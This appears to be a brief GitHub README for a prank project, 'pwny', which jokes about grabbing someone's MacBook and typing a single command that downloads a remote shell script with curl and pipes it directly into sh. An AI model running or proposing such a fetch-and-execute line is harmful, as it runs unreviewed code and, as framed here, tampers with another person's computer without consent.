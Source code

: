 # pwny
Don't let me touch your Macbook, or I'll type in:
```
curl -S https://raw.githubusercontent.com/jeversmann/pwny/master/pwn.sh | sh
```
